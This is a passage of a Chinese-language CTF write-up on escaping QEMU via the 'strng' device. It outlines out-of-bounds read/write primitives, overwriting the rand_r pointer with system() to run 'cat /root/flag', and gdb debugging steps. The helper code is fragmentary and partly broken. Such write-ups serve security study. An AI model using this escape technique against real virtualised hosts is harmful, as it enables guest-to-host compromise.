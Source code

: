 ```

    // Open and map I/O memory for the strng device
    if (iopl(3) !=0 )
        die("I/O permission is not enough");
        pmio_write(pmio_base+0,0);
    pmio_write(pmio_base+4,1);
 
}
```


### exploit 
整体思路：
1. 将"cat /root/flag" 写入regs[2]中作为备用参数 ，`map(hex, unpack_many("cat /root/flag  "))`
2. 构造越界读，读取函数地址，算出system函数地址
3. 越界写STRNGState 中的rand_r 函数为system
4. 构造调用rand_r(regs[2]) ,让opaque->addr>>2=3 

越界读：
先调用pmio_write 让 addr=0 ，opaque->addr = val ，先设置想读的地址,在用pmio_read() 当addr=4 时返回regs[opaddr>>2]

uint32_t oobread(uint32_t opaddr){
    pmio_write(pmio_base+0,opaddr);
    pmio_read(pmio_base+4);
}

越界写：
同样先设置opaque->addr = val，再addr=4,把val写入到 regs[opaddr>>2]中
uint32_t oobwrite(uint32_t opaddr){
    pmio_write(pmio_base+0,opaddr);
    pmio_write(pmio_base+4,val);
}

问题，参数中为什么没有指定size 

编译Makefile
```
ALL:
        cc -m32 -O0 -static -o exp exp.c
```

调试
1. 启动qemu 进入系统，编译并拷贝exp到系统中`scp -P5555 ./exp ubuntu@127.0.0.1:/home/ubuntu`
2. `ps -aux | grep qemu` 过滤出qemu进程
3. 编辑文件cmdline 
```
aslr off
b *0x00005591f4b324b0
```
aslr off 可以关闭随机化 ，即可在固定地址下断点
4. 开始调试
```
gdb ./qemu-system-x86_64 -q
source cmdline
attach qemu_pid
```
5. 执行exp 
